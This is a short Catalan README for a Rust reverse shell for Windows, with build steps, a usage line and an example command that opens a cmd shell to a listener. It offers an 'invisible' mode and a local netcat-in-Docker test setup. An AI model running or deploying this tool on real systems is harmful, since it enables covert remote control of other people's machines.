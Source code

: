 ## rrshw - Rust Reverse Shell for Windows 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **rrshw.exe [ip] [port] [invisible(y/n=default)]**

Exemple: **rrshw.exe 127.0.0.1 4444 y**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshw.git

cd rrshw

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Dins la carpeta Netcat he deixat el nesessari per engegar un netcat dins un contanier docker per tal de simular un servidor remot. Seguin les pases del document Help.txt i posteriorment des d'una consola windows executem l'exemple **rrshw.exe 127.0.0.1 4444 y**, veurem com en el contenidor apareix una consola cmd de windows. Proveu també sens el paràmetre 'y' per entendre la seva utilitat.
